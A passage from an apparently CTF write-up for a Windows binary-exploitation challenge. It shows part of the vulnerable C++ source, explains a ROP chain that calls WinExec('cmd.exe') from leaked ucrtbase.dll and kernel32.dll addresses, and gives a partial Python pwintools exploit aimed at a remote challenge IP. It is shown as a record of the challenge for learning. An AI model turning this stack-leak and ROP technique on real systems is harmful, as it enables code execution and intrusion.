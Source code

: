 ```cpp
        case 'r':
            std::cout << "pos: ";
            std::cin >> pos;
            std::cout << ptr[pos] << "\n";
            break;
        default:
            return 0;
        }
    }
}
```

As can be seen, we can read and write at arbitrary offsets of a variable on the stack. My approach was to build a rop chain and execute `winexec("cmd.exe")`. For the address of the `cmd.exe` string and a `ret` gadget I leaked the address of `ucrtbase.dll` from the stack and for the address of `winexec` and a `pop rcx; ret` gadget I leaked the address of `kernel32.dll` also from the stack.

The hardest part of this challenge for me was to find the correct remote offset of `ucrtbase.dll` as there is no simple way like `LD_PRELOAD` on Linux to preload a library :P

### Exploit
```python
from pwintools import *

DEBUG = False
if DEBUG:
	io = Process([b"AppJailLauncher.exe", b'/nojail', b'/port:4444', b'ConsoleApplication1.exe']) # Spawn chall.exe process
	r = Remote("127.0.0.1", 4444)
	#r.spawn_debugger(breakin=False)
	#log.info("WinExec @ 0x{:x}".format(r.symbols['kernel32.dll']['WinExec']))
else:
	r = Remote("34.79.30.147", 4444)

def leak(off):
	r.recvuntil(b"Do?")
	r.sendline(b"r")
	r.recvuntil(b"pos:")
	r.sendline(str(off).encode())

def write(off, val):
	r.recvuntil(b"Do?")
	r.sendline(b"w")
	r.recvuntil(b"pos:")
	r.sendline(str(off).encode())
	r.recvuntil(b"val:")
	r.sendline(str(val).encode())


'''
approach: call winexec("cmd.exe")

chain:
	pop rcx, ret
	<cmd.exe string in ucrtbase>
	ret (stack alignment)
	winexec
'''

leak(0x10)
kernel32 = int(r.recvline())

print("kernel32 leak ? ", hex(kernel32))

```